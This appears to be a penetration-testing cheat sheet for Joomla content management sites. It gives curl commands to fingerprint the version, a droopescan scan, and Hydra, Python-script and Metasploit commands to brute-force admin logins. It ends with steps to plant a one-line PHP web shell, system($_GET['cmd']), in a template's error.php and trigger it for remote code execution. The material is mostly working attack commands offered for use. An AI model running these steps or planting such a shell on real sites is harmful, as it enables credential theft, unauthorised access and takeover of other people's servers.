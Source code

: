 ### **INTRODUCTION**

Joomla is a free and open-source content management system (CMS) used to create, manage, and publish digital content on websites. It provides a user-friendly interface and a range of features that allow users to build and maintain websites without needing to write code. Joomla is highly customizable, supporting extensions and templates to enhance functionality and design, making it a popular choice for websites of all sizes—from personal blogs to large corporate sites.

### **IDENTIFYING JOOMLA VERSION**

1.  Obtain Joomla Version from README:  
    `curl -s http://[JOOMLA-DOMAIN]/README.txt | head -n 5`
    
    ```
    Joomla! version 3.9.22
    Copyright (c) 2005 - 2020 Open Source Matters.
    All rights reserved.
    Licensed under GNU General Public License.
    ```
    
2.  Check Version in Language Configuration:  
    `curl -s http://[JOOMLA-DOMAIN]/language/en-GB/en-GB.xml`
    
    ```xml
    <metadata>
        <name>English (United Kingdom)</name>
        <version>3.9.22</version>
        <description>English (United Kingdom) Language Pack</description>
    </metadata>
    ```
    
3.  Check Version in XML Configuration Files:  
    `curl -s http://[JOOMLA-DOMAIN]/plugins/system/cache/cache.xml`
    
    ```xml
    <extension version="3.9.22" type="plugin" method="upgrade">
        <name>cache</name>
        <author>Joomla! Project</author>
        <creationDate>April 2020</creationDate>
    </extension>
    ```
    
4.  Check Version in Administrator Manifests:  
    `curl -s http://[JOOMLA-DOMAIN]/administrator/manifests/files/joomla.xml | xmllint --format -`
    
    ```xml
    <extension type="file" version="3.9.22" method="upgrade">
        <name>joomla</name>
        <author>Joomla! Project</author>
        <creationDate>September 2020</creationDate> 
        <description>Joomla! Core Files</description>
    </extension>`
    ```
    

### **AUTOMATIC SCANNING**

1.  Use Droopescan for automatic scanning:  
    `droopescan scan joomla --url http://[JOOMLA-DOMAIN]/`

### **BRUTE FORCING LOGIN CREDENTIALS**

1.  Using Hydra for Credential Brute-Forcing:  
    `hydra -L users.txt -P passwds.txt [JOOMLA-DOMAIN] http-get /administrator/index.php`
2.  Using [joomla-brute.py](https://github.com/ajnik/joomla-bruteforce) for Credential Brute-Forcing:  
    `sudo python3 joomla-brute.py -u http://[JOOMLA-DOMAIN] -w /usr/share/wordlist/rockyou.txt -usr admin`
3.  Using Metasploit for Credential Brute-Forcing:  
    `msf > use auxiliary/scanner/http/joomla_bruteforce_login`

### **GAIN RCE BY INJECTING PHP CODE IN A TEMPLATE**

1.  Navigate to the Templates menu via the administrator panel.
2.  Select protostar from the Template list.
3.  Access the Templates: Customize page.
4.  Edit the error.php page and insert the following PHP code:  
    `system($_GET['cmd']);`
5.  Save the changes.
6.  Trigger the RCE with:  
    `curl -s http://[JOOMLA-DOMAIN]/templates/protostar/error.php?cmd=id`
